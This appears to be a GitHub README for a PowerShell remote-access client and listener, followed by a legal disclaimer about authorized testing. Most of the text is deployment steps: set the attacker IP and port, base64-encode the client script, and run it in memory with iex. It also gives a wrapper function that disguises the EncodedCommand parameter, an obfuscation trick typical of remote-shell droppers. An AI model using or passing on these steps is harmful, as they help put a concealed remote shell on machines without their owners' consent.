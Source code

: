 Use Client.ps by encoding it with https://www.base64encode.org/ use UTF16-LE and CRLF(Windows) Make change in ip and port in code keep genrated cert files in same directory where listener is present.
To execute the encoded code use iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('Base64EncodedCode')))
To execute the encoded code use function Connect{param([Alias('e','EncodedCommand')][string]$Via);iex([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($Via)))};Connect -Via Base64Code

## Disclaimer

This repository and its contents are provided for authorized testing, research, and educational use only. Use on any system, network, or environment without explicit, written permission from the owner is prohibited and may be illegal. The author and contributors accept no liability for misuse, damage, data loss, or legal consequences arising from use of the materials here. 

Before using any code or artifacts from this repository you must:
- Obtain written authorization that defines scope and timeframe.  
- Run all testing in isolated, non-production environments under full monitoring.  
- Inspect and validate all decoded or generated content before execution.  
- Comply with all applicable laws, regulations, and organizational policies.

If you do not have explicit authorization, do not use these materials. Seek legal counsel for clarity on permitted activities.
